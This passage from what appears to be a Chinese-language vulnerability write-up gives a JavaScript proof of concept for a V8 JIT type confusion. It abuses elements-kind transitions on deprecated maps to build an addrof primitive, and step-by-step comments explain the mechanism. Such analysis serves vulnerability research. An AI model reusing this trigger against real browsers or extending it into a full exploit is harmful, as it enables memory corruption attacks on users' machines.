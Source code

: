 
### Root Case

```
<script>
// 将被优化以更改元素类型的函数。
function change_elements_kind(a){
	a[0] = Array;
}
// 该函数将被优化为直接作为未装箱读取值(因此将读取指针作为值)。
function read_as_unboxed(){
    return evil[0];
}
// First, 让函数被编译
change_elements_kind({});
// 构造一个新对象，此时有一个map M0
map_manipulator = new Array(1.0,2.3);
// 添加一个新属性‘x’. M0 will now have an ‘x’ transition to the new one, M1.
map_manipulator.x = 7;
// 对该对象调用change_elements_kind函数. A version of the function for this M1 will be compiled.
change_elements_kind(map_manipulator);
// 更改对象的'x'属性类型。从M0到M1的先前的“ x”过渡将被删除，并且M1将被弃用。生成一个新的映射M2，从M0开始有一个新的“ x”过渡。
map_manipulator.x = {};
// 生成我们将用于漏洞的对象。确保它属于M2地图。
evil = new Array(1.1,2.2);
evil.x = {};
x = new Array({});
//优化change_elements_kind。
// 将调用ReduceElementAccess，然后依次调用ComputeElementAccessInfos。
// 下面的代码段（与以前相同），我们可以看到代码遍历了所有映射（注意：这些是已经在此函数中使用并已编译的映射），并尝试更新每个映射。
// 到达M1时，TryUpdate会发现它已被弃用，并寻找合适的未弃用的映射并找到M2，因为它具有相同的属性。 
//因此，将从M2创建一个元素类型过渡。

for(var i = 0;i<0x50000;i++){
    change_elements_kind(x);
}
// 优化read_as_unboxed。Evil当前是M2映射的一个实例，因此将
为此功能进行优化，并实现快速元素访问（Evil仅保存unboxed编号的属性）。

for(var i = 0;i<0x50000;i++){
    read_as_unboxed();
}
// 触发evil的元素种类变化。由于change_elements_kind是通过
//元素类型过渡进行优化的，因此evil的映射将仅更改以反映新的元素类型。
change_elements_kind(evil);
//调用read_as_unboxed。它仍然是M2，因此不会发生高速缓存未命中，并且是
执行了优化的版本。但是，该版本假定elements数组中的值unboxed，因此Array构造函数指针（存储在change_elements_kind中的位置0）将作为双精度值返回。
alert(read_as_unboxed());
</script>
```

总结来说就是：
- 当对诸如上面的change_elements_kind这样的函数进行优化时，由于该函数只改变了elements的类型，而没有改变属性，所以在缓存未命中时，它将会寻找最合适的未弃用的map，并通过该map创建一个Element kind transitions。（这么做的原因是：Element kind transitions对于该情况来说只要改变Element kind即可完成重新优化，如果没有他去重新生成新的map将会是一个非常浪费资源的操作）。
- 但是当对一个stable map的object进行上面提到的优化时，将会出现问题，它只会对当前优化的函数做Element kind的更改。
- 我们回到代码：通过优化change_elements_kind(x);生成了一个Element kind transitions并且将其Element kind做了改变，接着对read_as_unboxed();进行优化，因为它仍是M2，所以此处并不会发生缓存命中失败，在此处将会通过保存偏移实现元素快速访问（也就是内联缓存），并且change_elements_kind(x)优化时的对Element kind的修改并没有影响到read_as_unboxed()，所以它的内联缓存保存的将是unboxed的属性。
- 这样的话接着去执行最后两行的代码，change_elements_kind(evil);改变evil[0]，但是read_as_unboxed时通过缓存快速获得元素，将会以double的形式返回，这样就得到了类型混淆的addrof原语。
